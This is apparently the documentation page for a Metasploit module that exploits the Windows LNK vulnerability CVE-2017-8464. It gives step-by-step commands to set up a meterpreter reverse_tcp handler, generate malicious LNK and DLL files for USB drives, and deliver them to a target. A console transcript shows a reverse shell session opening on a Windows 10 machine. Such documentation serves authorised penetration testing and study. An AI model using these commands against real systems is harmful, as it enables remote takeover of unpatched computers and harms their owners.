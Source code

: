 ## Vulnerable Application

This vulnerability affects any Windows version without the patch for
CVE-2017-8464. The exploit does not appear to work with UNC drives. Because of
this, the exploit DLL file needs to be on a local file system or an USB drive.
A fix was released in the June 2017 Patch Tuesday.

## Vulnerable Setup

To set up the vulnerable environment, install a Windows version without the patch for CVE-2017-8464.
## Verification Steps

### Start a handler
  1. `use exploit/multi/handler`
  2. `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
  3. `set LHOST [ip victim connects back to]`
  4. `exploit -j`

### Run the exploit

  1. `use exploit/windows/fileformat/cve_2017_8464_lnk_rce`
  2. `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
  3. `set LHOST [ip victim connects back to]`
  4. `exploit`

### Copy files to USB drive & open on vulnerable system

  1. `cp /root/.msf4/local/* [USB drive path]`
  2. Insert device in target machine and browse to it

## Options

**FILENAME**

The file name of the LNK file. This file name can be renamed later. If the value is not set, a random name will be generated.

**DLLNAME**

The file name of the DLL file. This file cannot be renamed, as this will invalidate the LNK file(s). If not set, a random name will be generated.

**DRIVE**

Drive letter assigned to USB drive on victim's machine. If not set, LNK files for drive D till Z will be created. Copy all these LNK files to the USB drive to increase the chance that the vulnerability will be triggered.

### Windows 10 x64 (Build 14393)

```
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.146.197
LHOST => 192.168.146.197
msf exploit(handler) > exploit -j
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.146.197:4444
[*] Starting the payload handler...
msf exploit(handler) > back
msf > use exploit/windows/fileformat/cve_2017_8464_lnk_rce
msf exploit(cve_2017_8464_lnk_rce) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(cve_2017_8464_lnk_rce) > set LHOST 192.168.146.197
LHOST => 192.168.146.197
msf exploit(cve_2017_8464_lnk_rce) > exploit

msf exploit(cve_2017_8464_lnk_rce) > exploit

[*] /root/.msf4/local/kNgYlztVprHPOmHY.dll created, copy it to the root folder of the target USB drive
[*] /root/.msf4/local/SoXXZhgCWEDkbDyA_D.lnk created, copy to the target USB drive
[*] /root/.msf4/local/rfuSAlSFEPmrgsBh_E.lnk created, copy to the target USB drive
[*] /root/.msf4/local/LydLhRBovVRINgUh_F.lnk created, copy to the target USB drive
[*] /root/.msf4/local/xbpnlkcQOYonGpKW_G.lnk created, copy to the target USB drive
[*] /root/.msf4/local/SezkrIUwqIVvMiOZ_H.lnk created, copy to the target USB drive
[*] /root/.msf4/local/UzsJRIdcpoZPpLEj_I.lnk created, copy to the target USB drive
[*] /root/.msf4/local/BxTkakFYhUaxSNyi_J.lnk created, copy to the target USB drive
[*] /root/.msf4/local/dPdanTusElQRKzGZ_K.lnk created, copy to the target USB drive
[*] /root/.msf4/local/cKUaDslpjLshMEpP_L.lnk created, copy to the target USB drive
[*] /root/.msf4/local/RQPOxJeuGqVCQGNB_M.lnk created, copy to the target USB drive
[*] /root/.msf4/local/tLDnpaeIeUavIxqP_N.lnk created, copy to the target USB drive
[*] /root/.msf4/local/VVQOvhpqJYbhINIX_O.lnk created, copy to the target USB drive
[*] /root/.msf4/local/dAIEBrbaixsXjnnm_P.lnk created, copy to the target USB drive
[*] /root/.msf4/local/AoHnIQhKkpnYSOZR_Q.lnk created, copy to the target USB drive
[*] /root/.msf4/local/kZCCppTXKsuGRSCB_R.lnk created, copy to the target USB drive
[*] /root/.msf4/local/vMBPqzoOEoJXhZqQ_S.lnk created, copy to the target USB drive
[*] /root/.msf4/local/ueCsaNzVsljfHKnS_T.lnk created, copy to the target USB drive
[*] /root/.msf4/local/TSCgPoYrFFnZqMsl_U.lnk created, copy to the target USB drive
[*] /root/.msf4/local/QFbXkQeBmCvXezNg_V.lnk created, copy to the target USB drive
[*] /root/.msf4/local/liPaOopqYJbBIrVY_W.lnk created, copy to the target USB drive
[*] /root/.msf4/local/eZiWpyEYbkWHqStW_X.lnk created, copy to the target USB drive
[*] /root/.msf4/local/PawzVPKmvBoSblhA_Y.lnk created, copy to the target USB drive
[*] /root/.msf4/local/vJhDzJUydwYxnLlp_Z.lnk created, copy to the target USB drive
msf exploit(cve_2017_8464_lnk_rce) >
[*] Sending stage (1189423 bytes) to 192.168.146.193
[*] Meterpreter session 1 opened (192.168.146.197:4444 -> 192.168.146.193:50020) at 2017-07-25 19:28:27 +0200
sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-5G8HK7E
OS              : Windows 10 (Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
